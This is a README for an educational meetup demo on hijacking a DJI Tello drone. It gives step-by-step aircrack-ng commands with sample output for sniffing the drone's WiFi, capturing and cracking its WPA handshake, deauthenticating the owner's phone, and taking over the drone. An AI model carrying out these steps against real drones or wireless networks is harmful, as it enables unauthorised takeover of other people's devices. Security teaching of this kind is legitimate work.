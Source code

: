# Girl Geek Dinners Oslo drone hacking demo code
Demo code and presentation for Girl Geek Dinners in Oslo February 4th 2019.

## Preparations

You need:

1. A laptop with Kali Linux
2. A network adapter that supports packet injection
3. A mobile phone with the Tello app

This github repo contains some files that will help you in the demo, but it is not a prerequisite to download it.

In order to program the drone (if you want that, this is optional, see step 6 below) you'll need the Go programming language and the Gobot framework (https://gobot.io):

```
git clone https://github.com/transcendent-group/ggd.git
apt install golang
cd ggd
go get -d -u gobot.io/x/gobot/...
```

## Demo walkthrough

### Step 1: Sniff and find the drone’s WiFi network

Begin by listing wireless interfaces that support monitor mode with:

```
airmon-ng
```

If you do not see an interface listed then your wireless card does not support monitor mode.

If it does, make sure that other interfering processes are killed, you should see output similar to this:

```
root@kali:~/ggd# airmon-ng check kill

Killing these processes:

  PID Name
  868 wpa_supplicant
```

Then list out the wireless interfaces you have with `iwconfig, you should see output similar to this:

```
root@kali:~/ggd# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
```

We will assume your wireless interface name is `wlan0`:

```
airmon-ng start wlan0
```

This may create a new interface that is named something else, so be sure to check with `iwconfig` to use the correct interface name for the rest of the demo.

Then scan the networks:

```
root@kali:~/ggd# airodump-ng wlan0

 CH  3 ][ Elapsed: 1 min ][ 2019-02-03 09:50                                       
                                                                                                                                                             
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                             
 70:85:C6:9C:BC:3E   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 D8:FE:E3:DD:5F:8A   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 60:60:1F:D4:21:28  -18 100      266    29646   47   3  54e. WPA2 CCMP   PSK  TELLO-D42128                                                                   
 80:37:73:BD:B5:42  -80   0        0        1    0   3  -1   WPA              <length:  0>                                                                    
 08:86:3B:B9:53:CA   -1   0        0        0    0   3  -1                    <length:  0>                                                                    
                                                                    
                                                                                                                                                              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                    
                                                                                                                                                                                                                                         
 60:60:1F:D4:21:28  D4:61:9D:EE:49:2F  -32   54e-54e  5993    30022  TELLO-D42128                                                                                              
```

Look for the network called `TELLO-D42128`, and make note of the `BSSID` (the Tello drone wifi access point MAC address), channel number and `STATION` (the controller's MAC address):
 In the above, these are:

* WiFi channel: `3`
* Tello drone MAC address: `60:60:1F:D4:21:28`
* Controller (iPhone) MAC address: `D4:61:9D:EE:49:2F`

### Step 2: Capture a handshake

Stop listening on all channels, and set the right channel:

```
airmon-ng stop wlan0
airmon-ng start wlan0 3
```

Sniff the airwaves for a handshake:

```
airodump-ng -c 3 -b 60:60:1F:D4:21:28 -w ggd wlan0
```

You should see a that a WPA handshake has been captured after a while in the right topmost corner of the terminal window:

```
CH  8 ][ Elapsed: 12 s ][ 2019-02-03 10:03 ][ WPA handshake: 60:60:1F:D4:21:28  
```

### Step 3: Crack the handshake and obtain WiFi password

```
aircrack-ng ggd-01.cap -w passwords.txt
```

### Step 4: Deauthenticate me

Deauthenticate the iPhone controller:

```
aireplay-ng --deauth 0 -a 60:60:1F:D4:21:28 -c D4:61:9D:EE:49:2F wlan0
```

### Step 5: Hijack the drone!

Keep the above command running, and connect to the `TELLO-D42128` network with the password from step 3. Start the Tello app on your phone, and takeoff!

### Step 6 (optional): Connect to the drone from you laptop and program it to do some sweet flips

Open a text editor and insert the correct password in the `wpa_supplicant.conf` file.

Then disable monitor mode, and start wpa_supplicant:

```
airmon-ng stop wlan0
wpa_supplicant -i wlan0 -c wpa_supplicant.conf -D nl80211
```

In another terminal window check that you are connected, and ask for an IP:

```
iwconfig
dhclient wlan0
```

Then compile and run:

```
go build flip.go
./flip
```




